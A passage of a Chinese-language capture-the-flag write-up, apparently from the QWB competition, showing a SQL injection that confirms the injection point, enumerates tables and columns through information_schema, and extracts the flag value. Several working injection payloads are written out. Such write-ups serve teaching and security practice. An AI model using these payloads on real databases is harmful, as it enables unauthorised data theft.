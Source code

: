     <img src="/images/posts/qwb/8.png" >  
</div>
&emsp;&emsp;现在可以确定注入点就在这里。我们试一下：
```sql
'|conv(hex(substr(user(),1,4)),16, 10)|'
```
&emsp;&emsp;然后回显：
<div align="center">
    <img src="/images/posts/qwb/9.png" >  
</div>
&emsp;&emsp;说明确实存在注入，接着就是找表和字段，
```sql
'|conv(hex(substr((select table_name from information_schema.tables where table_schema=database()),1,4)),16,10)|'

'|conv(hex(substr((select column_name from information_schema.columns where table_name=0x666c616161616167 limit 0,1),1,4)),16,10)|'
```
&emsp;&emsp;结果就是表名：`flaaaaag`，列名：`flllllag`。payload：
```sql
'|conv(hex(substr((select flllllag from flaaaaag),1,4)),16,10)|'
```
&emsp;&emsp;最终flag：`QWB{us1ng_val1dator_caut1ous}`
